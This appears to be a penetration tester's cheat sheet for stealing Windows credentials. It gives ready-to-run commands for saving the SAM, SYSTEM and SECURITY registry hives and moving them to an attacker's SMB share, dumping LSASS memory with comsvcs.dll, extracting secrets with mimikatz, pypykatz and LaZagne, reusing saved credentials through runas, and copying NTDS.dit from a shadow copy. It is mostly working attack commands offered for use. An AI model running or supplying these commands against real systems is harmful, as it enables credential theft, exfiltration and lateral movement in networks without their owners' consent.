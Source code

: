 Quick Reference for most scenarios
```bash
# SAM, SYSTEM, SECURITY, NTDS.dit
# locally
impacket-secretsdump -sam <SAM> -system <SYSTEM> -security <SECURITY> -ntds <NTDS.dit> LOCAL

# Remotely
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY -ntds NTDS -dc-ip <dc_ip> '<domain>'/'<username>':'<password>'@<target>

# LSASS -- mimikatz or pypykatz
# Windows Credential Manager -- mimikatz or lazagne
# NTDS.dit -- nxc (BEST) or VSS
```

## Attacking SAM, SYSTEM, and SECURITY
With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline.

```bash
# Save reg hives
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

# Create share with smbserver (on attack host)
sudo impacket-smbserver -smb2support <SHARENAME> /home/kali/directory

# Move hive copies to share
move sam.save \\<kali_ip>\SHARENAME
move security.save \\<kali_ip>\SHARENAME
move system.save \\<kali_ip>\SHARENAME

# dump
impacket-secretsdump -sam <SAM> -system <SYSTEM> -security <SECURITY> LOCAL
```

For dumping sam, system, security, and NTDS.dit files

## Attacking LSASS
Local Security Authority Subsystem Service (LSASS) stores credential material in memory and is worth attacking.

Dumping
```PowerShell
# Task Manager Method
Open Task Manager > Processes > Local Security Authority Process > Create dump file

# Rundll31.exe & Comsvcs.dll Method
tasklist /svc        # Identify lsass.exe PID
Get-Process lsass    # Identify lsass.exe PID
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full # DUMP

# Transfer back however you like
```

Credential Extraction
```bash
# Pypykatz
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Mimikatz can also be used 
```
Make note of any hashes as well as the DPAPI keys

## Windows Credential Manager
Credential Manager is a feature built into Windows since Server 2008 R2 and Windows 7. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites

Enumerate
```PowerShell
# Look at stored creds
cmdkey /list
# If you find a user cred, you can use runas to move laterally
runas /savecred /user:<HOST>\<USER> cmd # Might to look at UAC bypass after this
```
see [[UAC Bypass]]

Extract Creds
```PowerShell
# Mimikatz
mimikatz.exe
privilege::debug
token::elevate
sekurlsa::credman         # Consider just using the oneliner i have...

# LaZagne
.\LaZagne.exe all
```

## Attacking NTDS.dit
NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources. Recall that NTDS.dit file is stored at %systemroot%/ntds on the domain controllers in a forest. The .dit stands for directory information tree.

We need local or domain admin
We can use either netexec (see above) or VSS

Volume Shadow Copy (VSS) Method
```PowerShell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# Transfer back
# Dump
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```



